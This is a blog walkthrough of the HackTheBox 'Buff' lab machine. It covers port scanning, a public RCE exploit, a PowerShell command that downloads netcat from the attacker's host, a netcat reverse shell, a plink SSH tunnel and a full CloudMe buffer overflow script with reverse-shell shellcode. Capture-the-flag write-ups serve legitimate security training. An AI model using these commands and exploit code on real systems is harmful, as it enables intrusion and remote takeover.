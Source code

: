 ```yaml
---
layout: post
title: HackTheBox Buff walktthrough
[comment]: <> (subtitle: First infosec blog post)
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, netcat, plink, powershell, windows, msfvenom]
comments: true
---
```


Buff is a machine on [HackTheBox](https://www.hackthebox.eu/) platform with the IP address 10.10.10.198. The machine is vulnerable to multiple CVE which are easy to find. The machine has been rated Easy by the community. When I wrote this walkthrough, Buff wasn't retired yet. Please don't cheat and solve the box by yourself if you didn't get root flag. The purpose of HacktTheBox is to learn and trying by yourself is the best way to do it.

![info_cart.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3da2ee768f774733bb773b4d7ce5b828.png)


## Post scan
Well, it started with several nmap scan to enumerate ports.


![fast_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8339a19328d74135ac616fd838f2a1ca.png)

I browser to the HTTP proxy and did a full TCP port scan in the background in case I've been missing something important.



![full_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/547e0902b8a04e2ca0c3a96acaa966fe.png)


Did a last scan to enumerate the version of the services I found.



![detail_nmap.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/348e061499bc40cc8f40b2e155662970.png)


![index_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/47b1d92d2c4d4785b3d3f9b5002627d4.png)

The first thing I tried to find were the technologies they used and their versions so I can search for CVE later. What does the application do? What language is it written in? What server software is the application running on? Do they use a CMS ?

Most of those questions were answered by poking around.

![contact_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/2e368b62d2cf4caebe60de2e5b9ec0a3.png)


![inspectorpng.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/155c34a5c1714eb4a049befe3ff90dbe.png)

## Foothold

I googled "Gym management Software 1.0" for exploits and get an unauthenticated [Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/48506).

![shaun_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/6c57f1e511e74ee5ad430fe7597fe642.png)

Now I can execute command on the server as user Shaun but it's not really convenient because I don't have proper shell. Shaun is an unprivileged user and I need to get an Administrator account to fully control the machine. The next step would be to enumerate the machine to find a way to elevate my privilege but let's get a shell first.

### Upload files 

I created a python web server to extend the folder of the file I wanted to upload on the server.

![local_http_server.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9e8822b28ea047eebc5fce2fbad00451.png)

Executed the command below to download the file from my machine with the right IP address.
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://YOUR_IP_ADDRESS:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')
```
I upload the first version of Netcat on the server since this version has an option to execute commands.

### Reverse shell

Opened the port 1234 for incoming connection and execute `nc.exe X.X.X.X 1234 -e cmd.exe` with your ip address to establish the reverse shell connection.

![listen_1234.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/9d1a53b7cddc40cfb5c063c935153ec8.png)



### System Information gathering

Ok. So I'm logged in windows x64 machine as Shaun. Let's begin or research from Shaun home directory to see what's there

```cmd
c:\Users\shaun>dir *.txt or *.exe /s /b
...
c:\Users\shaun\Desktop\user.txt
...
c:\Users\shaun\Downloads\CloudMe_1112.exe                                   
```

The command `dir` is used to list files a directory in cmd process. I used the option below to list important files.
- *.txt or *.exe : search for text and executable banry files 
- /s : search recursivly 
- /b : display only the path

## Privilege escalation

I googled "CloudMe_1112.exe" and found this executable were vulnerable to buffer overflow. Since we are in a CTF game, this information probably lead to something...

The executable open the port 8888 on the loopback interface (127.0.0.1), unfortunately I couldn't access this port from my kali machine. I download the [lastest version of plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) which is the command line tool of putty and executed the command below to create a SSH tunnel and get access to the port 8888 from my machine.


`plink.exe -ssh -l kali -pw YOUR_PASSWORD -R YOUR_IP_ADDRESS:8888:127.0.0.1:8888 YOUR_IP_ADDRESS`

### Exploitation 

I downloaded a [POC from exploit-db](https://www.exploit-db.com/exploits/48389) and modified the payload. 

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe YOUR_IP_ADDRESS 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python  -v payload <--- Command I used to create the payload 
payload = b"\xda\xd3\xd9\x74\x24\xf4\xba\x7a\xe7\x80\xb2\x5e"		#<--- Modified payload
payload += b"\x33\xc9\xb1\x3e\x83\xc6\x04\x31\x56\x14\x03\x56"
payload += b"\x6e\x05\x75\x4e\x66\x4b\x76\xaf\x76\x2c\xfe\x4a"
payload += b"\x47\x6c\x64\x1e\xf7\x5c\xee\x72\xfb\x17\xa2\x66"
payload += b"\x88\x5a\x6b\x88\x39\xd0\x4d\xa7\xba\x49\xad\xa6"
payload += b"\x38\x90\xe2\x08\x01\x5b\xf7\x49\x46\x86\xfa\x18"
payload += b"\x1f\xcc\xa9\x8c\x14\x98\x71\x26\x66\x0c\xf2\xdb"
payload += b"\x3e\x2f\xd3\x4d\x35\x76\xf3\x6c\x9a\x02\xba\x76"
payload += b"\xff\x2f\x74\x0c\xcb\xc4\x87\xc4\x02\x24\x2b\x29"
payload += b"\xab\xd7\x35\x6d\x0b\x08\x40\x87\x68\xb5\x53\x5c"
payload += b"\x13\x61\xd1\x47\xb3\xe2\x41\xac\x42\x26\x17\x27"
payload += b"\x48\x83\x53\x6f\x4c\x12\xb7\x1b\x68\x9f\x36\xcc"
payload += b"\xf9\xdb\x1c\xc8\xa2\xb8\x3d\x49\x0e\x6e\x41\x89"
payload += b"\xf1\xcf\xe7\xc1\x1f\x1b\x9a\x8b\x75\xda\x28\xb6"
payload += b"\x3b\xdc\x32\xb9\x6b\xb5\x03\x32\xe4\xc2\x9b\x91"
payload += b"\x41\x3c\xd6\xb8\xe3\xd5\xbf\x28\xb6\xbb\x3f\x87"
payload += b"\xf4\xc5\xc3\x22\x84\x31\xdb\x46\x81\x7e\x5b\xba"
payload += b"\xfb\xef\x0e\xbc\xa8\x10\x1b\xff\x74\xb3\xdc\x61"
payload += b"\xe5\x3b\x6d\x3e\x9d\xcf\xe9\xd1\x3e\x43\xae\x4a"
payload += b"\xb9\xce\x12\xe0\x49\x7d\xc4\x6b\xcd\x21\x74\x0f"
payload += b"\x23\xbf\xf0\xaa\x1b\x0e\x31\x1b\x6a\x40\x1f\x52"
payload += b"\xb8\x8e\x66\xb4\xf4\xfa\xac\x80\xd4\x2f\xa8\xc8"
payload += b"\x77\x5d\x56\x27\x12\xe5\xf3\x37"
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

I executed it and got a shell as Administrator.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c2ee9ee649634840b89d70f9ca4b2ccd.png)

And that’s how I did Buff. This is my first walkthrough, others will be coming soon. I hope you learn something. See you till the next write up.

